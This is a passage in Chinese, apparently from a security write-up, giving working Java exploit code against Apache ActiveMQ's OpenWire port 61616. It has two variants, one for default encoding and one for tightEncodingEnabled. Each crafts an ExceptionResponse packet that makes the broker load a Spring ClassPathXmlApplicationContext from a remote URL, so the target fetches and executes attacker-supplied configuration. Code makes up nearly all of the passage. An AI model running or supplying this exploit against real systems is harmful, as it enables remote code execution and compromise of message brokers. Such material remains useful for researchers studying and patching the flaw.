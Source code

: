 获取到ExceptionResponse的DATA\_STRUCTURE\_TYPE为31，整体的协议比较简单，以下为攻击代码。

```plain
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeBoolean(true);
dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeBoolean(true);
dataOutput.writeUTF("http://localhost:8000/abcd");

Socket socket = new Socket("localhost", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

在看代码中发现ActiveMQ中存在一个tightEncodingEnabled的配置，启用tightEncodingEnabled配置后，ActiveMQ会使用一种紧凑的消息编码方式，它采用了一些技巧，例如采用更紧凑的数据结构、二进制编码等，以减少消息的大小。

很明显如果目标启用了tightEncodingEnabled的话，上面的攻击代码肯定需要修改。经过测试发现默认Broker未打开该配置，Consumer打开该配置。

这里也给出tightEncodingEnabled场景下，攻击Broker的利用代码

```plain
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

BooleanStream bs = new BooleanStream();
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(false);
bs.writeBoolean(true);
bs.writeBoolean(false);

bs.marshal(dataOutput);

dataOutput.writeUTF("bb");
dataOutput.writeUTF("aa");

dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeUTF("http://localhost:8000/abcd");

bos.flush();

Socket socket =new Socket("127.0.0.1", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```
